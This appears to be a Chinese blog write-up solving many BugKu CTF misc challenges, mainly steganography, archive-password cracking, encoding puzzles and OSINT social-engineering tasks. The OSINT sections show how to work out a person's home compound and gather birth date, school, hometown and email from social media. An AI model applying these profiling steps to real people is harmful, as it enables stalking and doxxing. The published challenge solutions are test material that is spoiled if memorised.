> 1111101

注意到其中有四段的长度稍短，在它们前面补0，再按顺序把它们全部连起来，转字符得到`flag{A1_9_5h1_wan}`

## random color

文件尾有另一个png图片的数据，提取出来，放到`Stegsolve`里两张图对比一下，得到一个二维码

扫码拿到flag

## 小美的秘密

挺多层的，有点小复杂

先看后花园，有一个`fence.jpg`，图片中有`11`根黑色的**栅栏**(这是提示，后面能用到)，图片尾部有另一张图片的数据，提取出来另存为**1.jpg**

把1.jpg的高度改大，看到一串字符

到[在线网站](https://www.qqxiuzi.cn/bianma/zhalanmima.php)解密，得到**小美家.zip**的解压密码`$key2987`

解压之后直接奔向**垃圾桶**，把这两个文件修复一下，然后把后缀都改成**jpg**，再把两张图拼凑在一起

这里的`BugKu233`就是**储物间.zip**的密码，解压后，先看`小美钢琴日记.txt`，得到提示

再去看**001**文件夹里的图片，文件尾有额外数据，提取出来解压得到一个二维码，扫码得到密码的前半段：`roomkey`； 再去看**002**文件夹里的音频文件，用`Audacity`分析，看到尾部有摩斯密码，得到密码后半段：`0721`

用密码`roomkey0721`解压**卧室.zip**，得到下面四个文件

把日记1里面的编码、日记2exif信息中的编码、日记3的编码拼在一起得到

> U2FsdGVkX18qyg4WuEtWtfFwxKvgUnUdax/b4f2dLgl30Tqg4Q/TOhaucaZpwqP/jQz3BAf/2IkCxIBDNBz94A==

U2F开头，很熟悉，接下来就是找秘钥，发现`花盆.zip`是**伪加密**，破解后修改高度得到秘钥：`misc`


```
flag{My_secret_1s_Y0u_@re_x1@ng_peach} 
```

## where is flag 3

刚开始我甚至想过爆破密码，但是发现这里是**高强aes-256**，果断放弃

总的思路应该和前面两题差不多，前面已经用过了`文件大小`和`crc32`，这里考虑一下从`修改时间`下手，直接看日期没有什么规律，考虑转换成`时间戳`

用[在线网站](https://tool.lu/timestamp/)转换成时间戳，需要精确到秒，这里只能到分，所以用010查看精确的秒数

除了图片外，其他所有都转换，得到

> 1621556112
> 1621556119
> 1621556100
> 1621556105
> 1621556115
> 1621556065
> 1621556108
> 1621556116
> 1621556050
> 1621556050
> 1621556056
> 1621556055
> 1621556049
> 1621556050
> 1621556051
> 1621556048
> 1621556052
> 1621556051

发现每组只有最后三位数是不同的，而且都在0-127范围内，提取出来，转字符得到**pwdisAlt2287123043**，那么压缩包密码就是`Alt2287123043`

解压出图片，得到flag


## where is flag 番外篇

先看key.rar

出题人说借鉴了**where is flag**系列的部分思路，注意到crc32和时间都没获得有效信息，所以把重点放在**文件大小**上

不过不管是文件大小还是压缩后大小，直接看不出东西，但是如果**用文件大小减去压缩后的文件大小**，就能得到这样一组数字：

```
75 101 121 58 90 104 117 71 76 64 64 46 48 
```

转字符后得到**Key:ZhuGL@@.0**，获得了压缩包密码`ZhuGL@@.0`

解压得到一个图片，**winhex**翻一手

base58解码得到`bugku{th1s_1s_chu_Sh1_B1A0!!@}`

## 群友们的唠嗑

hint：

```
mounting password：
(128,128,128)(0,0,0)
(255,255,255)(0,0,0)
(128,128,128)(255,255,255)

(128,128,128)(255,255,255)
(0,0,0)(0,0,0)
(128,128,128)(255,255,255)

(128,128,128)(255,255,255)
(0,0,0)(128,128,128)
(0,0,0)(255,255,255)

hint:hex @ hue
fk hint:no hint more happiness 
```

括号里面的东西对应的是颜色，一直不明白这几组颜色怎么能跟密码对应起来，给的两个hint也不知道是什么意思，拿去搜也没搜到

后来才发现这玩意是`hexahux`

所以对应的挂载密码就是`123`，再去看flag.001，用winhex打开时就提示这个是镜像文件

用`FTK Image`打开，先解密出`flag-decrypted.001`

然后再添加源证据，发现回收站里有东西，导出来

里面的`$I3PC85G.gif`中内容是

**G:\flag\here**下有一个加密的压缩包，这里把密码的线索指向了gif，那就看剩下的另一个`$R3PC85G.gif`

一番测试后发现是`帧数间隔隐写`

```
identify -format "%T " $R3PC85G.gif > 1.txt

得到的结果：
5 5 5 4 4 4 4 4 5 5 4 4 4 4 5 4 5 5 5 4 4 5 5 4 5 5 5 4 4 5 5 4 5 5 4 5 4 4 5 4 5 5 5 4 4 5 5 4 5 4 5 4 5 5 5 4 5 4 5 4 5 4 4 4 5 4 4 4 4 4 4 4 5 5 4 4 5 5 5 4 5 5 4 5 4 4 5 4 5 4 4 4 5 5 4 3 3 3 3 3 
```

以往都是两种字符组成，然后换成1和0,末尾出现了几个3是怎么回事。。。。。

先不管后面的3，把5换成1，4换成0，最后得到`长度为95`的二进制代码

这里得到的长度就很不对劲，不是8的整数倍也不是7的整数倍，那就不能直接转字符，也不符合画二维码的要求，看了八神的wp才知道，`开头要补一个0`，写脚本：

```
s="5 5 5 4 4 4 4 4 5 5 4 4 4 4 5 4 5 5 5 4 4 5 5 4 5 5 5 4 4 5 5 4 5 5 4 5 4 4 5 4 5 5 5 4 4 5 5 4 5 4 5 4 5 5 5 4 5 4 5 4 5 4 4 4 5 4 4 4 4 4 4 4 5 5 4 4 5 5 5 4 5 5 4 5 4 4 5 4 5 4 4 4 5 5 4".split()
flag = "0"
for i in s:
    if i == "5":
        flag += "1"
    else:
        flag += "0"
for i in range(len(flag)//8):
    print(chr(int(flag[i*8:(i+1)*8],2)),end="") 
```

跑出密码：`WT@giF`，解压出`encode.png`

尝试了一下发现这里不是简单的修改了宽高度，看了八神的wp得知这是`因为原图的像素被放置到了错误的宽度上`，附上八神的脚本

```
from PIL import Image

img = Image.open('encode.png')
w, h = img.size

def decodei(width):
    height = w * h // width + 1
    new = Image.new('RGB', (width, height))
    for i in range(w * h):
        new.putpixel((i % width, i // width), img.getpixel((i % w, i // w)))
    new.show()
    new.save("flag.png")

decodei(727) 
```


flag{希望大家不要不识抬举}

## MuMuMisc的简单题

提示：

> 连续加了两天班又经历了2021.3.14 AWD线上赛的后MuMuMisc内心黑化程度到达了100%，他决定出一个套娃题目来与大家进行较♂量。
> MuMuMisc先是构造了一串flag，然后在他的外国网友霍夫曼的指导下进行了最原始的编码加密，最后层层套娃将其藏进了一张图片里。
> 霍夫曼在完成工♂作后靠在树上与MuMuMisc进行了视频对话，他说MuMuMisc出的题目也就有他指导的那一层还有点意思，但整体还是简单得不能看。钥匙都给你了，聪明的你最后一定能够得到flag。
> 感谢套神mumuzi发现的题目的一点小瑕疵，mumuzi yyds orz。

先看png图片

Stegsolve分析了一下没有发现，所以写脚本把左侧这块读出来，`黑色对应1`，`白色对应0`
，再转成字符

```
from PIL import Image

im = Image.open('mumumisc.png')
(w, h) = im.size

flag = ''
for x in range(w):
    for y in range(h):
        p = im.getpixel((x, y))
        if p == (0, 0, 0):
            flag += '1'
        elif p == (255, 255, 255):
            flag += '0'
for i in range(len(flag)//8):
    print(chr(int(flag[i*8:(i+1)*8],2)),end="") 
```

得到的结果base64解码，得到：

> 110001 00000 010 0110 11001 101 0111 101 0111 101 0001 001 110000 100 0001 001 100 0110 1111 1111 1101 100 010 11101 1101 100 00001 010 11101 1101 001 1111 101 111001 111000

回过头看`private.key`，它其实是个jpg图片，改后缀，得到

结合提示，得知这个是[霍夫曼树](https://blog.csdn.net/qq_29519041/article/details/81428934)，前面得到的那个应该就是`霍夫曼编码`了，写脚本

```
s="110001 00000 010 0110 11001 101 0111 101 0111 101 0001 001 110000 100 0001 001 100 0110 1111 1111 1101 100 010 11101 1101 100 00001 010 11101 1101 001 1111 101 111001 111000"
lt=s.split()

tree = [[[[['l', 'h'], 'i'], 's'],
         ['a', ['g', 'u']]],
         [['_', 'm'],
        [[[['c', 'f'], '{'], 'd'],
         [[['}', 'e'], 'n'], 'o']]]]

for i in lt:
    t = tree
    for j in i:
        t=t[int(j)]
    print(t,end="") 
```

## 泡菜

卡了挺久的，那个图片是什么编码一直没找到，还是得请教师傅们

xjj.jpg尾部有bpg图片的数据，提取出来，用[工具](https://bellard.org/bpg/)查看
命令：`bpgview.exe 1.bpg`

得到压缩包解压密码：`QQ@93388`

就是这个编码，一直没找到是啥，从别的师傅那里得知这个是`Mary Stuart Code`

对照密码表，得到：`thekeyismumuzinbtql`，测试后发现要大写，解压密码：`MUMUZINBTQL`

先看txt，这玩意眼熟啊，前段时间做过的 **[INSHack2019]gflag** 里面考察过，这个是`G语言`

[在线网站](https://ncviewer.com/)运行一下，得到最后一个压缩包的密码`MUMUZIYYDS!@#`

hint.txt：

> 题目好像挺有意思的
> 不套了，解出来即为flag

另一个txt直接打开是乱码，winhex看一下

其实到这里也没认出来是什么，但是参考了八神给的提示，这个知识点在题目**我爱linux**里出现过，确认这个是`python的序列化文件`，写脚本

```
import pickle
f=open("fl.txt","rb")
result=pickle.load(f)
f.close()
f1=open("out.txt","w")
f1.write(str(result))
f1.close() 
```

最后得到

> 155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699155887669915588766991558876699

其中重复出现的`1558876699`就是flag

## 低位的色彩

> flag格式为：flag图片背景颜色+flag字体颜色+flag内容
> 如：
> flag图片背景颜色为红色
> flag字体颜色为蓝色
> flag内容为flag{this_is_a_fake_flag}
> 则正确的flag为：flag{red_blue_this_is_a_fake_flag}


能大概看出flag内容是`happy_bugku_y0000`，然后就是字体颜色和背景颜色，背景颜色应该就是`red`

剩下的字体颜色我是靠猜的，试了**red**、**blue**、**green**…，最后确定是black

`flag{red_black_happy_bugku_y0000}`

## where is flag2


开始想着是crc32碰撞，拿到文本里的内容，后面发现txt里的内容都是无意义的

这些txt的文件名很容易让人联想到十六进制，内容无意义应该是为了凑crc32值

把这些txt的crc32值连在一起，转字符得到flag：`bugku{You_can't_imagine_the_happiness_of_hiding_the_flag!!!}`


## where is flag


```
s="98117103107117123110974810048110103100971079749125"
x=len(s)//2
flag=""
for i in range(x):
    if len(s) != 0:
        if  int(s[:3])< 127:
            flag += chr(int(s[:3]))
            s = s[3:]
        else:
            flag += chr(int(s[:2]))
            s = s[2:]
print(flag) 
```

## Licking dog diary

先看图片，用`Stegsolve`打开发现lsb隐写痕迹

**save bin**保存

其中包含elf文件数据，提取出来，另存为一个新文件

尝试直接运行，结果报错，winhex继续分析，发现

把这一串数据删除，再次运行

得到一堆箭头

> ↕↱↕↕↔↙↕↙↔↓↕→↕→↔↗↔↘↕↺↕↲↔↗↔↕↔↗↔↕↔↗↔↕=

[箭头密码](https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=jiantou)解密得到keyis`bbwxnlwuwuwu`

拿去解压压缩包，用**notepad**打开`敬爱此文.txt`，看到这几行有tab和空格

Tab换成1，空格换成0，得到

> 01101011
> 01100101
> 01111001
> 00110001
> 00111010
> 01101101
> 01101101
> 01111010
> 01110111
> 01101100
> 01110000

每八位二进制转字符得到`key1:mmzwlp`

再去看敬爱此码，翻看文件时发现这个字样，拿去搜一下发现github上有一个[项目](https://github.com/zdhxiong/mdclub)

这几个文件夹就是从这个项目里拷出来的，把这个项目里对应的四个文件夹下载下来，使用`Beyound Compare`对比一下是否有差异

发现src文件夹里面很多文件均被修改过，而每个地方的差异仅是一个字母，连起来得到`Key2MMzwbb`，所以压缩包密码是`mmzwlpMMzwbb`

解压得到的finally改后缀为rar，这里使用`Accent RAR Password Recovery`进行掩码爆破


成功跑出密码`QAQ%#!`

解压得到的flag，改后缀为jpg打开


这里并没有明确给出flag的提示…
`bugku{huiyuelaiyuehaode}`

## 一切有为法如梦幻泡影

俩文件，从**Zero.png**中foremost分离出一个压缩包，解压得到**问.png**

没有得到 **《察》.zip** 密码的提示，所以爆破得到密码`42`，解压得到这两个文件

先分析**one.png**，foremost分离出压缩包，解压得到**感.png**，同样也没有从其中找到 **《探》.zip**密码的信息，测试后发现也不是伪加密，索性暴力破解放在后台慢慢跑(跑了半小时出来了)


现在有四个图片，慢慢分析，看有没有遗漏。发现**one.png**有lsb隐写的痕迹，Data Extract提取，得到密码`Z8Kt%`

得到这么三个文件，其中**Tow.jpg**里面也有数据，foremost提取出来压缩包，解压得到**思.jpg**，同样好像也没啥用。

用`audacity`分析**Tow.mp3**，查看频谱图得到压缩包密码`jBL7@`

解压最后一个压缩包，得到**Three.jpg**，foremost从里面又又又得到一个压缩包(严重怀疑是套神小号)，不过这个压缩包其实与flag无关，它只是一个彩蛋

正如图中所说，确实，过程挺有趣


**Three.jpg**尾部有一串base64，解码即可得到flag

## FileStoragedat

下载了一个dat文件，微信PC版存储的本地文件格式为DAT格式，在网上找工具解密即可

分析一个我找到的：[https://lindi.cc/archives/301](https://lindi.cc/archives/301)

把这个dat文件放在文件夹111中，然后用工具解密

拿到flag


## 可爱的故事

开始没做出来是因为不认识图片里是什么字符，现在评论区提示的很明显了，是原神里的`提瓦特文`，对照表如下

hint.txt中有一个很重要的提示：`flag为大兔子说的一句带bugku的话`

翻找一下，flag在这个位置，flag:`bugku{iamlearningteyvatinbugku}`

## 悲伤的故事

结合这两处提示，基本可以确定压缩包密码是`九个字的电影名`

百度了一波，秒出，第一个压缩包的密码是`比悲伤更悲伤的故事`

解压得到另一个加密的压缩包，还给了密码的格式：`XXyueXXri`，应该是一个日期，不过不知道在哪里找

注意到这一串数字比较奇怪，搜索了一下没有结果，这个正好是十位数字，有没有可能是**qq号**？

思路是对的，进空间看一下，发现一共13条说说，内容的格式基本都差不多，而且日期都是7月21日

试了几下得到第二个压缩包密码：`7yue21ri`，其实这里也可以直接`掩码爆破`拿到密码

把得到的exe文件扔进winhex里看一下，发现

因为这里是exe文件，所以用`pyinstxtractor`去反编译([https://github.com/extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor))

命令：

```
python3 pyinstxtractor.py 有一种悲伤…….exe 
```

运行后在项目所在文件夹下找到反编译后得到的结果，在pyc文件中看到flag

不得不说，出题人有故事

## split_all

下载得到一个打不开的file.png，扔进010editor中，发现文件头怪怪的，前面是png的文件头，后面有半截gif的文件头

**把前面png文件头删去**，补全gif文件头，另存为一个新图片

得到一个1*432的图片，扔进`Stegsolve`里发现有770张图，因为宽度太细了，所以看不出来

结合题目名，应该是要把所有图片都拼起来，直接跑脚本

为了防止有萌新看不懂，还是解释一下，`1.gif`和`这个脚本`还有`文件夹123`放在同一级目录下

```
from PIL import Image

def saveall(): 
    im = Image.open('1.gif')
    for i in range(770):
        im.seek(i)
        im.save('123/' + str(i) +'.png') 
    ping()

def ping(): 
    new_one = Image.new('RGB',(770,432))
    for j in range(770):
        ima = Image.open('123/' + str(j) +'.png')
        new_one.paste(ima,(j,0,j+1,432))
    new_one.save("flag.png")

if __name__ ==  "__main__":
    saveall() 
```

## 社工-进阶收集

开局一张图

先从图片中提取可用信息：

> 1、图中有一座金碧辉煌的塔，经过查找发现是西安市的大雁塔

2、小红是从**始发站**上的地铁，一共坐了**七站**，并且**中间转了一站**，对照下图

可以发现二号线和三号线都正好是七站到达大雁塔，但是三号线不需要转站，说明小红是**从韦曲南出发的**

3、**始发站(韦曲南)离她家800多米，下一站(航天城)离她家1千多米**

可以在地图上画两个圆，缩小范围，最后发现小红所在小区是**兰乔国际城**

所以flag{lanqiaoguojicheng}

## 哥哥的秘密

又是一个社工题，到[妹妹的空间](https://user.qzone.qq.com/2492853776/main)找线索

我是按时间顺序做的，最早的一个说说下面有个评论，进去后发现有提示

相册more hint的密码是`happy`,由密文经过**base91->base58->base64**得到

妹妹的第二个说说暴露了她的出生日期`2000 12 26`

根据她说说的定位可知，**学校**在`四川绵阳`，**家**在`四川乐山`。

她的名字是`刘佳佳`，2月1日的说说里有一串盲文，解密得到`hint：密码=时地人`

下一步就是破解相册密码了

首先是名为`一张二维码`的相册,hint是`2+3+8num=`开始没看懂，后面才意识到是密码的形式

对应的是2个字母+3个字母+8个数字，测试后发现是地点+姓名+生日，即`lsljj20001226`
扫码得到`My MicroBlog name：啊这ovo001`,转战微博

搜索`2598888 乐山`得到哥哥工作的公司`尚纬股份`

回头去破解第一个相册


得到邮箱`a2492853776@163.com`

因为是**棋圣师傅**的题，难免会有一系列套娃，所以就简单叙述解题步骤了

### 途径一

点击**查看原图**，然后下载**第一张图**，foremost分离出一个压缩包

题目描述.txt：

> 以下是题目描述：
> 噢，我的老兄，很抱歉看了你的照片，这感觉真是太糟了。我是说，虽然隔了这么久，我还是忍不住想用沉默之眼来寻查这之中的秘密。我想你可能对我们的靴子朋友或者屁股老弟有什么偏见，就像我们都以为约翰尼先生总打他的狗，但是事实不是那样的，他们就像兄弟一样，我亲眼所见，我发誓。

* * *

> 题目1：（题目1和题目2都可以得到flag相册密码，自由抉择选择哪条）
> 找到密码，将密码发送给指定的邮箱，即可获得flag，快来挑战吧！
> （密码必须写在主题上而不是内容上）

根据提示`沉默之眼`，使用 `SilentEye`打开星星的夜.png，得到密码

从这个图片中foremost分离出压缩包，使用密码解压得到第一个password.txt

这一串密文需要经过多次base64解密，使用脚本

用winhex打开password.txt，发现大量`零宽度字符`，解密

base64解密得到`密文后两位是OK`,然后去发邮件

不愧是套娃师傅

`base58->hex->base32->base64`,最后得到相册密码`youfindme!`

拿到flag


### 途径二

在做题的过程中偶然发现这是newsctf的新生赛，有一篇wp就是用第二种途径做的

这里直接[挂链接](https://miaotony.xyz/2021/02/11/CTF_2021NewsCTF/#toc-heading-9)，我真的不想再被套娃折磨一次了…

## 插画

下载的压缩包中给了一串base64密文

> RnJlZV9GaWxlX0NhbW91ZmxhZ2UsIOmimOebruWlveWDj+aYr+aMuumHjeimgeeahOagt+WtkC4u

解密得到

> Free_File_Camouflage, 题目好像是挺重要的样子…

压缩包中还给了一个图片pl.jpg


经过binwalk、Stegsolve分析无果后，考虑题目给的提示`Free_File_Camouflage`,这是一个文件伪装图片工具，[下载地址](http://www.pc6.com/softview/SoftView_862481.html)


解密步骤如图，蓝框内填的是密码，题目中已经给出。

得到一个pl.txt

> length q caller lc and print chr ord uc q ge log and print chr ord q eval ge and print chr ord q ge log and print chr ord q qr eq and print chr ord q my alarm and print chr ord qq q q and print chr ord q msgctl m and print chr ord q sin s and print chr ord qw q ne q and print chr ord qw q gt q and print chr ord q else and print chr ord q ge log and print chr ord q q q and print chr ord q lt eval and print chr ord q tie lt and print chr ord qw q m q and print chr ord q ge log and print chr ord qq q q and print chr ord q my m and print chr ord q xor x and print chr ord qw q use q and print chr ord qq q q and print chr ord q map m and print chr ord q oct do and print chr ord q oct no and print chr ord q ref or and print chr ord qw q sin q and print chr ord qw q sin q and print chr ord q q q and print chr ord q each le and print chr ord qq q q and print chr ord q qw q and print chr ord q ref or and print chr ord qw q bless q and print chr ord q msgctl m and print chr ord q tie gt and print chr ord q lt eval and print chr ord q ge log and print chr oct oct ord uc qw q bind q and print chr ord q q q and print chr ord q my m and print chr ord q local and print chr ord qw q use q and print chr ord q q q and print chr ord q else and print chr ord q ref or and print chr ord q map m and print chr ord q eval ge and print chr ord q ge log and print chr ord q q q and print chr ord q lt eval and print chr ord q qr q and print chr ord q each ne and print chr ord q oct no and print chr ord qw q keys q and print chr ord qw q sin q and print chr oct oct ord uc qw q fcntl q and print chr ord q q eq and print chr ord uc q lt eval and print chr ord q qr q and print chr ord q each le and print chr ord q lc eval and print chr ord qw q keys q and print chr ord qw q s q and print chr ord q q q and print chr ord q stat s and print chr ord q chr uc and print chr ord q each ne and print chr ord q lt eval and print chr ord qq q q and print chr ord q local and print chr ord q gt log and print chr ord q chop uc and print chr ord q ge log and print chr ord q qr eq and print chr ord qw q s q and print chr ord q q q and print chr ord q lc eval and print chr ord q map m and print chr ord qw q ne q and print chr ord qq q q and print chr ord q map m and print chr ord q lc eval and print chr ord q oct no and print chr ord q ref or and print chr ord qw q s q and print chr ord q msgctl m and print chr oct oct ord uc qw q for q and print chr ord q q q and print chr ord uc q sin s and print chr ord qw q fcntl q and print chr ord q q q and print chr ord q my alarm and print chr ord q local and print chr ord q dump and and print chr ord q q eq and print chr ord qw q do q and print chr ord q pop and print chr ord qw q ne q and print chr oct oct oct ord uc qw q gt q and print chr ord q lt eval and print chr ord q q eq and print chr ord q else and print chr ord q tie lt and print chr ord qw or and print chr ord q map m and print chr oct oct ord uc qw q bless q and print chr ord q q eq and print chr ord qw q fcntl q and print chr ord q sin s and print chr ord qw q no q and print chr ord qw q die q and print chr ord q q eq and print chr ord q local and print chr ord qw q uc q and print chr ord q gt log and print chr ord q q q and print chr ord q qw q and print chr ord q chr uc and print chr ord q map m and print chr ord q lt eval and print chr ord qq q q and print chr ord qw q s q and print chr ord q pop and print chr ord qw q fork q and print chr ord q stat s and print chr ord q qw q and print chr ord q map m and print chr ord q qr q and print chr ord q ge log and print chr ord q q q and print chr ord q lc eval and print chr ord q map m and print chr ord qw q not q and print chr ord q q eq and print chr ord q chr lc and print chr ord q ref or and print chr ord qw q le q and print chr ord q open no and print chr ord q q q and print chr ord q my m and print chr ord q pop and print chr ord q dump and and print chr ord qq q q and print chr ord q oct no and print chr ord q xor x and print chr ord q eval ge and print chr ord q ge log and print chr ord q qr eq and print chr ord q q eq and print chr ord q stat s and print chr ord q chr lc and print chr ord q ne sin and print chr ord q rmdir and print chr oct oct ord uc qw q for qprint chr ord q lc eval and print chr ord qw q keys q and print chr ord qw q s q and print chr ord q q q and print chr ord q stat s and print chr ord q chr uc and print chr ord q each ne and print chr ord q lt eval and print chr ord qq q q and print chr ord q local and print chr ord q gt log and print chr ord q chop uc and print chr ord q ge log and print chr ord q qr eq and print chr ord qw q s q and print chr ord q q q and print chr ord q lc eval and print chr ord q map m and print chr ord qw q ne q and print chr ord qq q q and print chr ord q map m and print chr ord q lc eval and print chr ord q oct no and print chr ord q ref or and print chr ord qw q s q and print chr ord q msgctl m and print chr oct oct ord uc qw q for q and print chr ord q q q and print chr ord uc q sin s and print chr ord qw q fcntl q and print chr ord q q q and print chr ord q my alarm and print chr ord q local and print chr ord q dump and and print chr ord q q eq and print chr ord qw q do q and print chr ord q pop and print chr ord qw q ne q and print chr oct oct oct ord uc qw q gt q and print chr ord q lt eval and print chr ord q q eq and print chr ord q else and print chr ord q tie lt and print chr ord qw q kill q and print chr ord q ref or and print chr ord q q eq and print chr ord q lt eval and print chr ord q chr lc and print chr ord q ref or and print chr ord q q q and print chr ord q tie gt and print chr ord qw q die q and print chr ord q ref or and print chr ord q map m and print chr oct oct ord uc qw q bless q and print chr ord q q eq and print chr ord qw q fcntl q and print chr ord q sin s and print chr ord qw q no q and print chr ord qw q die q and print chr ord q q eq and print chr ord q local and print chr ord qw q uc q and print chr ord q gt log and print chr ord q q q and print chr ord q qw q and print chr ord q chr uc and print chr ord q map m and print chr ord q lt eval and print chr ord qq q q and print chr ord qw q s q and print chr ord q pop and print chr ord qw q fork q and print chr ord q stat s and print chr ord q qw q and print chr ord q map m and print chr ord q qr q and print chr ord q ge log and print chr ord q q q and print chr ord q lc eval and print chr ord q map m and print chr ord qw q not q and print chr ord q q eq and print chr ord q chr lc and print chr ord q ref or and print chr ord qw q le q and print chr ord q open no and print chr ord q q q and print chr ord q my m and print chr ord q pop and print chr ord q dump and and print chr ord qq q q and print chr ord q oct no and print chr ord q xor x and print chr ord q eval ge and print chr ord q ge log and print chr ord q qr eq and print chr ord q q eq and print chr ord q stat s and print chr ord q chr lc and print chr ord q ne sin and print chr ord q rmdir and print chr oct oct ord uc qw q for q
> #!/usr/bin/perl -w
> length q rmdir and print chr oct hex ord uc q stat s and print chr ord qw q m q and print chr ord qw q x q and print chr ord q chr uc and print chr oct hex ord uc q lt eval and print chr oct oct ord uc qw q m q and print chr ord q stat s and print chr oct oct ord uc qw q m q and print chr ord q map m and print chr oct ord q mkdir m and print chr ord uc qw q flock q and print chr oct oct oct ord q open do and print chr ord uc q qx q and print chr length q x rename sethostent srand pack pipe setpwent syscall else eq split sleep endservent qw require symlink ne keys ord require x and print chr ord uc qw q for q and print chr length q q splice srand getservbyname setnetent ne reset endprotoent foreach scalar rewinddir cos setnetent not else getprotobyname q and print chr ord uc q exp le and print chr hex ord q m alarm and print chr ord uc qw q y q and print chr ord qw q x q and print chr ord uc q my m and print chr ord uc q qw eq and print chr ord q oct do and print chr oct oct oct ord q mkdir m and print chr ord qw q fork q and print chr ord uc q eq ne and print chr oct oct ord q eq le and print chr oct oct ord q eq le
> length q caller lc and print chr ord uc q ge log and print chr ord q eval ge and print chr ord q ge log and print chr ord q qr eq and print chr ord q my alarm and print chr ord qq q q and print chr ord q msgctl m and print chr ord q sin s and print chr ord qw q ne q and print chr ord qw q gt q and print chr ord q else and print chr ord q ge log and print chr ord q q q and print chr ord q lt eval and print chr ord q tie lt and print chr ord qw q m q and print chr ord q ge log and print chr ord qq q q and print chr ord q my m and print chr ord q xor x and print chr ord qw q use q and print chr ord qq q q and print chr ord q map m and print chr ord q oct do and print chr ord q oct no and print chr ord q ref or and print chr ord qw q sin q and print chr ord qw q sin q and print chr ord q q q and print chr ord q each le and print chr ord qq q q and print chr ord q qw q and print chr ord q ref or and print chr ord qw q bless q and print chr ord q msgctl m and print chr ord q tie gt and print chr ord q lt eval and print chr ord q ge log and print chr oct oct ord uc qw q bind q and print chr ord q q q and print chr ord q my m and print chr ord q local and print chr ord qw q use q and print chr ord q q q and print chr ord q else and print chr ord q ref or and print chr ord q map m and print chr ord q eval ge and print chr ord q ge log and print chr ord q q q and print chr ord q lt eval and print chr ord q qr q and print chr ord q each ne and print chr ord q oct no and print chr ord qw q keys q and print chr ord qw q sin q and print chr oct oct ord uc qw q fcntl q and print chr ord q q eq and print chr ord uc q lt eval and print chr ord q qr q and print chr ord q each le and print chr ord q lc eval and print chr ord qw q keys q and print chr ord qw q s q and print chr ord q q q and print chr ord q stat s and print chr ord q chr uc and print chr ord q each ne and print chr ord q lt eval and print chr ord qq q q and print chr ord q local and print chr ord q gt log and print chr ord q chop uc and print chr ord q ge log and print chr ord q qr eq and print chr ord qw q s q and print chr ord q q q and print chr ord q lc eval and print chr ord q map m and print chr ord qw q ne q and print chr ord qq q q and print chr ord q map m and print chr ord q lc eval and print chr ord q oct no and print chr ord q ref or and print chr ord qw q s q and print chr ord q msgctl m and print chr oct oct ord uc qw q for q and print chr ord q q q and print chr ord uc q sin s and print chr ord qw q fcntl q and print chr ord q q q and print chr ord q my alarm and print chr ord q local and print chr ord q dump and and print chr ord q q eq and print chr ord qw q do q and print chr ord q pop and print chr ord qw q ne q and print chr oct oct oct ord uc qw q gt q and print chr ord q lt eval and print chr ord q q eq and print chr ord q else and print chr ord q tie lt and print chr ord qw q kill q and print chr ord q ref or and print chr ord q q eq and print chr ord q lt eval and print chr ord q chr lc and print chr ord q ref or and print chr ord q q q and print chr ord q tie gt and print chr ord qw q die q and print chr ord q ref or and print chr ord q map m and print chr oct oct ord uc qw q bless q and print chr ord q q eq and print chr ord qw q fcntl q and print chr ord q sin s and print chr ord qw q no q and print chr ord qw q die q and print chr ord q q eq and print chr ord q local and print chr ord qw q uc

只剩最后一步了，本来卡在这里了，直接用这个文本执行命令: `cat pl.txt | perl`

总是会报错，后面有师傅提醒说，只用第三段字符串解密就行


把其他的字符串删除，只留选中的这一串，再次执行命令，得到结果

得到一串base64，拿去解密就得到flag (这里还是希望大家自己动手去试试)

## 隐秘的角落

下载得到的图片四角各有十六个特殊的像素点

借助python的pillow库中的`getpixel`函数，获取这些像素的RGB值

结果如下:

> (0, 84, 227)(1, 86, 99)(2, 112, 38)(3, 88, 85)(4, 82, 209)(5, 48, 34)(6, 78, 161)(7, 97, 239)(8, 77, 87)(9, 122, 130)(10, 78, 233)(11, 76, 28)(12, 85, 189)(13, 108, 98)(14, 86, 169)(15, 72, 227)

> (31, 51, 248)(30, 115, 84)(29, 85, 63)(28, 87, 191)(27, 50, 131)(26, 89, 226)(25, 108, 41)(24, 87, 191)(23, 71, 192)(22, 53, 194)(21, 48, 183)(20, 78, 7)(19, 121, 211)(18, 81, 111)(17, 122, 102)(16, 85, 34)

> (32, 84, 116)(33, 122, 129)(34, 86, 226)(35, 89, 36)(36, 86, 137)(37, 122, 202)(38, 82, 206)(39, 97, 137)(40, 82, 51)(41, 69, 220)(42, 90, 185)(43, 80, 247)(44, 83, 233)(45, 108, 168)(46, 82, 203)(47, 73, 116)

> (63, 57, 62)(62, 107, 22)(61, 48, 61)(60, 78, 19)(59, 80, 8)(58, 100, 53)(57, 69, 95)(56, 87, 133)(55, 67, 107)(54, 57, 236)(53, 48, 212)(52, 78, 47)(51, 68, 151)(50, 78, 80)(49, 122, 155)(48, 83, 112)

发现R通道的数值是从0-63的有规律的数字，G通道的数值均在`0-127`范围内，B通道没有发现规律

那么按照R通道数字增加的规律，将对应G通道的ascii码转字符，拼接得到
`TVpXR0NaMzNLUlVHUzQyN05GWlY2WUs3TzVYVzRaREZPSlRISzNDN09CWEdPN0k9`
对应脚本如下:

```
from PIL import Image

im = Image.open('file.png')
x=y=""
for i in range(16):
    print(chr(im.getpixel((i, 0))[1]),end="")
for i in range(16):
    a = im.getpixel((im.size[0]-1-i,0))
    x += chr(a[1])
print(x[::-1],end="")
for i in range(16):
    print(chr(im.getpixel((i,im.size[1]-1))[1]),end="")
for i in range(16):
    b = im.getpixel((im.size[0]-1-i,im.size[1]-1))
    y += chr(b[1])
print(y[::-1]) 
```

解码两次得到flag


## 赛博朋克

下载了一个加密的zip文件，凭感觉很容易发现是伪加密，用ZipCenOp破解后得到一个cyberpunk.txt，改后缀为png
因为这是一个png文件，可以先用`zsteg`(限制png和bmp)分析一波，结果直接得到flag

根据描述可知这是lsb隐写，也可以用Stegsolve手动做出来

## ping

下载得到一个ping.pcap，用wireshark打开，得到38个ICMP协议的数据包，注意这个位置

可以手动把每个数据包对应位置的字符串拼接起来，得到flag

使用tshark命令更方便，跟八神学的(tql)

```
volcano@kali:~/桌面$ tshark -r ping.pcap -Y "icmp" -T fields -e data | cut -c1-2 | xargs
